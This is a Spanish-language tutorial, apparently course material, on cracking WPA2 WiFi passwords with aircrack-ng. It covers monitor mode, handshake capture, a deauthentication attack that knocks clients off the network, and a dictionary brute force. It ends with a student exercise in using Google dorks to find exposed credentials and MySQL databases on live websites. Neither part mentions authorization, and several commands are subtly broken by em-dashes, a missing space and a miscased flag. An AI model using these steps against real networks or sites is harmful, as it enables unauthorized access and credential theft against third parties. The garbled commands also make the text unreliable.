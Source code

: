 En los últimos años, las redes WiFi han recorrido un largo camino y siempre que su red esté usando el cifrado WPA2-AES, una contraseña fuerte, y tiene el WPS deshabilitado será extrremadamente difícil de acceder. Hey! vamos a intentarlo.

Un método para hackear las contraseñas cifradas de Wi-Fi es mediante la fuerza bruta, por lo que cada combinación de caracteres se intenta hasta que llegue a la correcta. Es teóricamente posible, pero esto puede tomar años en la práctica, especialmente si se utiliza una contraseña larga.

## Pasos para descifrar contraseñas Wi-Fi con Aircrack-Ng

#### Preparando el Adaptador:

Compruebe que Kali puede detectar el adaptador abriendo la terminal y ejecutando el comando: **airmon-ng**

Deshabilitar cualquier proceso que pueda interferir con su captura de paquetes, escriba el siguiente comando: **airmon-ng check kill**

Ahora poner el adaptador en modo de monitoreo con el comando: **airmon-ng start wlan0**

Anotar el nombre de la interfaz y ejecute airodump-ng (nombre de la interfaz) para listar las redes que le rodean, por ejemplo:

//Ejecute el siguiente comando

//para empezar a escuchar todas las conexiones WiFi disponibles

**airodump-ng wlan0mon**

#### Encontrando la Red WiFi Objetivo:

Encuentre la lista, la red que tiene como objetivo descifrar su contraseña. Anote el “BBSID” y “CH” (canal).

A continuación, después de haber visto su objetivo presione las teclas Ctrl+C y ejecute el comando:

**airodump-ng -c 6 —bssid 02:08:22:7E:B7:6F —write EsGeeks wlan0mon**

-   **-C:** Es un número del canal de la red que aparece en la columna CH (En la salida de la pantalla anterior). En mi caso es 6.
    
-   **-bssid:** Es la dirección MAC de la red objetivo. En mi caso es EsGeeks y el BSSID es 02:08:22:7E:B7:6F
    
-   **-write:** Es el archivo de captura en la que se guardarán los paquetes. En mi caso la he nombrado como “EsGeeks”.
    
-   **-w:** Es el prefijo del nombre de archivo que contendrá el handshake.
    
-   **wlan0mon:** La interfaz inalámbrica.
    

#### Lanzando un ataque deauth:

Ahora abrimos una nueva terminal e iniciamos el ataque deauth para desconectar todos los cientes conectados a la red. Ésto le ayudará en la captura del handshake. Ingrese el comando:

aireplay-ng-0 10 -a 02:08:22:7E:B7:6F -e XXXX wlan0mon

-   **-0:** Se utiliza para el ataque deauth.
    
-   **10:** Es el número de paquetes deauth para ser enviados.
    
-   **-a:** Es la dirección MAC de la red WiFi objetivo.
    
-   **-e:** Es el ESSID de la red objetivo, es decir, su nombre.
    

**Después de lanzar el ataque deauth y conseguir el HANDSHAKE WPA, pulse Ctrl+C**

#### Descifrando Claves Wi-Fi por fuerza bruta:

Ahora tenemos que romper la clave con aircrack-ng, escriba el comando:

**aircrack-ng xxxx.cap -w rockyou.txt**

-   **EsGeeks-01.cap:** Es el archivo de captura que generamos en el airodump-ng. (puede ejecutar el comando “ls” para mostrar el nombre exacto de su archivo de registro).
    
-   **-w:** Es el diccionario que se utilizará para llevar a cabo el ataque de fuerza bruta.
    

# RETO: Hacking

En el presente reto, se propone al alumno realizar diferentes búsquedas mediante Google Dorks:

-   Búsqueda de documentos excel en algunas webs.
    
-   Búsqueda de credenciales user y password.
    
-   Búsqueda de bases de datos mysql.
    
-   Búsqueda de user y passwords bases de datos mysql.